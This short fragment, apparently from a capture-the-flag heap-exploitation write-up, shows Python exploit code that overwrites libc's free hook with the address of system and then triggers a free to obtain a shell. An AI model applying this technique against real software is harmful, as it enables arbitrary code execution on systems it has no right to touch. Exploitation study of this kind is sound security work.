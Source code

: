 ```py
edit(16, p64(free_hook)+b"HUGEHUGEHUGE")
create(0x40, 2)
create(0x40, 2)
edit(17, p64(libc.sym.system)+b"HOGEHOGE")
edit(18, p64(libc.sym.system)+b"HOGEHOGE")

destroy(14)

shell()
```
 